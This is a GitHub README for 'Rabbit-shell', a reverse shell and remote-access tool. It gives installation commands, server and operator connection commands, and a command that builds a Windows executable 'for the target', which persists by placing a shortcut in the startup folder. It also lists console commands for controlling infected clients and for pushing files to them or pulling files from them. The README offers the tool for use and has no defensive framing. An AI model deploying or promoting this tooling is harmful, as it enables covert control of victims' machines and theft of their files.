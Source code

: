 # Rabbit-shell

###### Rabbit shell reverse shell tool.



##  Installation.



### By pip.

```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.

# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain or just rsb.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.





## Log to server as author.

```bash
rsb --auth -a 192.168.0.111 -p 9999
```

> - --auth is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to server and contacts
> - -k (optional) use key

###### connect to your server as an author and control your own clients.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to


###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Generate new key.

```bash
rsb --key
```

###### generate a new key and save it in data\basic.py.



## To insert key.

```bash
rsb --key -k your_key
```

> - -k is the key you want to insert to the tool files.

## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.

```bash
reqfile:filename
```













## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
